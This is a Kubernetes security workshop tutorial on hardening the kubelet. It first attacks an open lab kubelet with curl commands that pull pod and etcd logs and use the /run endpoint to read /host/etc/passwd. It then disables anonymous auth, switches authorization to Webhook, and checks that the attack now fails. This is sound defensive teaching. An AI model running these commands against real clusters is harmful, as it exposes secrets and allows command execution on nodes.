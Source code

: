 # Making the kubelet safe

## Attacking the kubelet

Before fixing the kubelet we will try to get sensitive data via the kubelet.

### Preparations
```bash
# exit the VM - for being in the Google Cloud Shell again
exit

# store the external IP of the worker node
export IP=$(gcloud compute instances list --format json | jq .[].networkInterfaces[].accessConfigs[].natIP | tr -d \")
```

### Getting sensitive data from the kubelet

```bash
# getting metrics from the kubelet
curl -k https://$IP:10250/metrics

# getting log infos from the kubelet
curl -k https://$IP:10250/logs/pods/ | grep etcd

# getting logs from etcd eg `curl -k https://$IP:10250/logs/pods/kube-system_etcd-kubernetes-security_87a0e13f2b523002a1f9bd2decbc296d/etcd/0.log`
curl -k https://$IP:10250/logs/pods/<ETCD_POD>/etcd/0.log

# getting infos from the host
curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"
```

## Fixing the kubelet

### SSH into the VM
```bash
gcloud compute ssh root@kubernetes-security --zone europe-west3-a
```

### vi the kubelet config
``` bash
vi /var/lib/kubelet/config.yaml
```

### Fix Authentication
```yaml
authentication:
  anonymous:
    enabled: true # <= change to false
```

### Fix Authorization
```yaml
authorization:
  mode: AlwaysAllow # <= change to Webhook
```

### Restart the kubelet
```bash
systemctl restart kubelet
```

### Verify kubelet is now save again
# getting infos from the host
```bash
# exit the VM - for being in the Google Cloud Shell again
exit

# try to attack the kublet atain - now you will get an `Unauthorized` response
curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"
```
